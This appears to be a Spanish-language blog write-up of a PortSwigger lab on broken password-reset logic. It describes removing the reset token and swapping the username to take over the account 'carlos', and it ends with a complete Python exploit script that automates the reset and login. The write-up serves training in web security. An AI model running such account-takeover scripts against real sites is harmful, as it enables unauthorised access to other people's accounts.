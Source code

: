 ```yaml
---
title: "03 Password reset broken logic"
collection: publications
category: portswigger
permalink: publications/Authentication/03_Password reset broken logic
excerpt: 'La funcionalidad de restablecimiento de contraseña de este laboratorio es vulnerable. Para resolver el laboratorio, restablecemos la contraseña de Carlos y luego iniciamos sesión y accedemos a su página «My account».'
date: 2034-12-04
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Password reset broken logic'
---
```


![logo]({{site.url}}/images/Authentication/authentication-lab-03/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Authentication/authentication-lab-03/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, restablecemos la contraseña de Carlos y luego iniciamos sesión y accedemos a su página «My account».

## Vector de ataque

En esta ocación el vector de ataque va a ser `Forgor password?` de reestablecer contraseña.

![Olvidar]({{site.url}}/images/Authentication/authentication-lab-03/olvidar.png)

Reestablecemos el passwor del usuario `wiener`

![Reestablecer]({{site.url}}/images/Authentication/authentication-lab-03/reestablecer.png)

Debemos mirar el correo.

![Correo]({{site.url}}/images/Authentication/authentication-lab-03/correo.png)

E ingresamos a la URL que nos dieron.

![Link]({{site.url}}/images/Authentication/authentication-lab-03/link.png)

Ingresamos una nueva contraseña.

![Nuevo]({{site.url}}/images/Authentication/authentication-lab-03/nevo.png)

## Vulnerar

Cuando ingresamos al link y muestra la pantalla de ingresar las contraseñas nuevas. Esa petición tiene unos token temporales.

![Token]({{site.url}}/images/Authentication/authentication-lab-03/token.png)

Que pasa si le eliminamos los Token's y le cambiamos el usuario a `carlos` ?. Vemos que nos hace una redirección. Eso es buena señal.

![Peticion]({{site.url}}/images/Authentication/authentication-lab-03/peticion.png)

## Login con las credenciales cambiadas

Probamos a ver si se realizo el cambio del password.

![Login]({{site.url}}/images/Authentication/authentication-lab-03/login.png)

## Aprobado

![Aprobado]({{site.url}}/images/Authentication/authentication-lab-03/aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def access_carlos_account(s, url):

    # Reset Carlos's password
    print("(+) Resetting Carlos's password...")
    password_reset_url = url + "/forgot-password?temp-forgot-password-token=x"
    password_reset_data = {"temp-forgot-password-token": "x", "username": "carlos", "new-password-1": "password", "new-password-2": "password"}
    r = s.post(password_reset_url, data=password_reset_data, verify=False, proxies=proxies)

    # Access Carlos's account
    print("(+) Logging into Carlos's account...")
    login_url = url + "/login"
    login_data = {"username": "carlos", "password": "password"}
    r = s.post(login_url, data=login_data, verify=False, proxies=proxies)

    # Confirm exploit worked
    if "Log out" in r.text:
        print("(+) Successfully logged into Carlos's account.")
    else:
        print("(-) Exploit failed.")
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    s = requests.Session()
    url = sys.argv[1]
    access_carlos_account(s, url)

if __name__ == "__main__":
    main()
```